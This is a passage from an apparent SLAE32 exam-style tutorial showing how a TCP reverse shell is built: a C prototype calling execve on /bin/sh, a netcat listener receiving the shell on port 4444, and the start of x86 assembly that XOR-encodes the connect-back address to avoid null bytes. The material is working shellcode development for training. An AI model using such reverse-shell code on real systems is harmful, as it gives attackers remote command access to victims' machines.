 ```c
}
```

#### Testing the program

Compiling the C prototype:
```
slemire@slae:~/slae32/assignment2$ gcc -o shell_tcp_reverse_c shell_tcp_reverse.c
shell_tcp_reverse.c: In function ‘main’:
shell_tcp_reverse.c:13:25: warning: implicit declaration of function ‘inet_addr’ [-Wimplicit-function-declaration]
  addr.sin_addr.s_addr = inet_addr("127.0.0.1"); // Connection IP
                         ^
shell_tcp_reverse.c:35:2: warning: null argument where non-null required (argument 2) [-Wnonnull]
  execve("/bin/sh", 0, 0);
  ^
```

Netcat is used to listen for the reverse shell connection on port 4444:
```
slemire@slae:~/slae32/assignment2$ ./shell_tcp_reverse_c 
[...]
slemire@slae:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 52202)
whoami
slemire  
```

### Assembly version
--------------------
Similar to the bind shellcode, we first clear out the registers so there is nothing left in the upper or lower half that could cause problems with the program execution.

```nasm
; Zero registers
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
```

Next, a socket is created and we create the addr struct used to store the IP and port where the shellcode will connect to. In this example, the `127.0.0.1` IP is used with port `4444`. Later, we will use a python script to easily modify the IP address and port in the shellcode so we don't need to touch the assembly code manually every time we want to make a change. Depending on the IP address used, the shellcode generated might contain null bytes so instead the IP address is XORed with a specific key that won't result in null bytes in the shellcode.

```nasm
; Create socket
mov al, 0x66        ; sys_socketcall
mov bl, 0x1         ; SYS_SOCKET
push 0x6            ; int protocol -> IPPROTO_TCP
push 0x1            ; int type -> SOCK_STREAM
push 0x2            ; int domain -> AF_INET
mov ecx, esp
int 0x80            ; sys_socketcall (SYS_SOCKET)
mov edi, eax        ; save socket fd

; Create addr struct
mov eax, 0xfeffff80 ; 127.0.0.1 XORed
mov ebx, 0xffffffff ; XOR key (should be changed depending on IP to avoid nulls)
xor eax, ebx        ; 
push edx            ; NULL padding
push edx            ; NULL padding
```